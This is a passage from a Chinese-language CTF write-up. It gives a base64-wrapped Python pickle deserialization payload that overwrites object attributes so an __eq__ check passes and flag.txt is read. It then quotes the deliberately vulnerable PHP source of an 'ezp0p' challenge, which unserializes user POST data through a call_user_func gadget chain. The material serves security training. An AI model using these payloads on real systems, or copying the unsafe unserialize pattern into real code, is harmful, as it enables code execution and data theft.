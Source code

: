 将反序列化出来的对象与people对象进行比较，默认比较应该按照地址进行比较，但是这里的people类写了__eq__魔术方法，这里的比较就只是生成出来的对象的属性比较了，如图：

![](img/cff2e3821c4bd54027d4296ead99cc52.png)

那么我们就可以通过Python反序列化，去修改b包中的name，sex，age属性，并且再生成一个people对象，经过__eq__的比较，即可获取flag.txt的内容，编写POC：

| import base64data=b'c__main__\nb\n}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub0c__main__\npeople\n)\x81}(Vname\nVtest\nVage\nV13\nVsex\nVnan\nub.'print(base64.b64encode(data)) |

发送Payload：

![](img/99729d480f20f646bda927ca3c10649b.png)

获取flag。

## **0x07 ezp0p**

纯纯的代码审计题目：

| <?phperror_reporting(0);highlight_file(__FILE__);class This{protected $formatters;public function want(){echo "what do you want to do?";}public function __call($method, $attributes){return $this->format($method, $attributes);}public function format($formatter, $arguments){$this->getFormatter($formatter)->patch($arguments[0][1][0]);}public function getFormatter($formatter){if (isset($this->formatters[$formatter])) {return $this->formatters[$formatter];}}}class Easy{protected $events;protected $event;public function __destruct(){$this->events->dispatch($this->event);}public function welcome(){echo "welcome CTFer!";}}class Ctf{protected $ban;protected $cmd;public function upup(){echo "upupupupupupup!";}public function __construct(){$this->ban='script';$this->cmd='whoami';}public function dispatch($cmd){call_user_func_array("script",$cmd);}}class Gema{protected $xbx;public function gema(){echo "wish you like this ezp0p!";}public function __construct(){$this->xbx='script';}public function patch($Fire){call_user_func($this->xbx,$Fire);}}if($_POST['x']!=$_POST['y'] && md5($_POST['x'])===md5($_POST['y'])){if(file_get_contents(substr($_POST['x'],0,20))!=null){@unserialize(base64_decode($_POST['data']));}else{die('To read this file??');}}else{die('maybe you are right??');}?> |

首先这里的unserialize函数是一个门槛，如图：

![](img/264487d152c25970064f8bad1a16cbf7.png)
